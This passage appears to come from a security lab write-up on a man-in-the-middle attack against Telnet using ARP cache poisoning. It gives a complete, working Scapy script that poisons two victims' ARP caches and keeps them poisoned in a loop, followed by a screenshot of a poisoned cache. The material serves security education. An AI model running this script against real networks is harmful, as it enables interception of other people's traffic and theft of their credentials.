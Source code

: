<br>

### MITM Attack on Telnet using ARP Cache Poisoning
For this attack, I chose to carry out initial cache poisoning via arp requests and then sustain the poisoned cache via gratuitous messages. Below is the code used:

```python
#!/usr/bin/env python3

import sys, time
from scapy.all import *

def main():
    # Ensure correct usage
    if len(sys.argv) != 3:
        usage()
        sys.exit(2)
        
    # unpack values
    victim_1 = sys.argv[1]
    victim_2 = sys.argv[2]
    
    # construct packet for initial poisoning via arp request
    sendp(Ether(dst = 'ff:ff:ff:ff:ff:ff') / ARP(psrc = victim_1, pdst = victim_2, op = 1), verbose = 0)
    sendp(Ether(dst = 'ff:ff:ff:ff:ff:ff') / ARP(psrc = victim_2, pdst = victim_1, op = 1), verbose = 0)
    print('Performed initial poisoning...')
    time.sleep(5)
    
    # ensure continuous poisoning via arp gratuitous messages
    while True:
        print('Re-arming arp poisoning...')
        sendp(Ether(dst = 'ff:ff:ff:ff:ff:ff') / ARP(psrc = victim_1, pdst = victim_1, op = 1), verbose = 0)
        sendp(Ether(dst = 'ff:ff:ff:ff:ff:ff') / ARP(psrc = victim_2, pdst = victim_2, op = 1), verbose = 0)
        time.sleep(5)
    
def usage():
    print("Usage: ./arp-request.py <victim1-ip> <victim2-ip>\
    \n\tvictim1-ip: IP address of victim 1\
    \n\tvictim2-ip: IP address of victim 2\n")
    
    
if __name__ == '__main__':
    main()
```

***arp cache for `host A`***

![arp-poison-hostA](https://github.com/iukadike/blog/assets/58455326/af7444dc-11ee-4052-9984-79bedc8af5d9)
